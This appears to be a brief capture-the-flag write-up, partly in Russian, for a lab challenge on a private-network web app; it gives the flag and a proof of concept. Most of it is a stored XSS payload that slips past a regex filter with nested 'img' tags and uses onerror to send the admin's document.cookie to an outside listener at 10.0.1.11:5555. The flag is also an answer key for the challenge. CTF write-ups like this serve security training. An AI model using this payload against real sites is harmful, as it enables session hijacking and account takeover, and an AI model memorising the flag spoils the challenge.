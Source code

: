 #Флаг
Dont_regex_XSS


# POC

- in browser open `http://10.0.2.10`
- show params in burp `name&message`
- to steal admin cookie can post script to write cookie in db

- В поле message нужно внести <<<iimgimg src=x onerror=this.src='http://10.0.1.11:5555/?c='+document.cookie>
